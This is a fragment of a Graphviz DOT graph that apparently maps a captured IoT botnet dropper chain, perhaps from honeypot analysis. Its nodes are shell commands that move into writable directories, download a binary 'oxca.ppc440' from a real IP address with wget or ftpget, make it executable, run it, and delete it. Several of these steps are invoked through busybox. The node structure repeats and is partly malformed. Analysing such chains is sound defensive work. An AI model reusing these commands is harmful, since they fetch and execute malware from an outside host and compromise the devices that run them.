836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 826 [label="||,"];
826 [label="wget http://212.237.53.32/oxca.ppc440 "];
826 -> 828 [label=";,"];
828 [label="chmod +x oxca.ppc440 "];
828 -> 864 [label=";,"];
864 [label="./oxca.ppc440 "];
864 -> 848 [label=";,"];
848 [label="rm -rf oxca.ppc440 "];
848 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 844 [label="||,"];
844 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.ppc440 oxca.ppc440 "];
844 -> 846 [label=";,"];
846 [label="chmod +x oxca.ppc440 ./oxca.ppc440 "];
846 -> 848 [label=";,"];
848 [label="rm -rf oxca.ppc440 "];
848 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 860 [label="||,"];
860 [label="/bin/busybox wget http://212.237.53.32/oxca.ppc440 "];
860 -> 862 [label=";,"];
862 [label="/bin/busybox chmod +x oxca.ppc440 "];
862 -> 864 [label=";,"];
864 [label="./oxca.ppc440 "];
864 -> 881 [label=";,"];
881 [label="/bin/busybox rm -rf oxca.ppc440 "];
881 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 878 [label="||,"];
878 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.ppc440 oxca.ppc440 "];
878 -> 880 [label=";,"];
880 [label="/bin/busybox chmod +x oxca.ppc440 ./oxca.ppc440 "];
880 -> 881 [label=";,"];
}
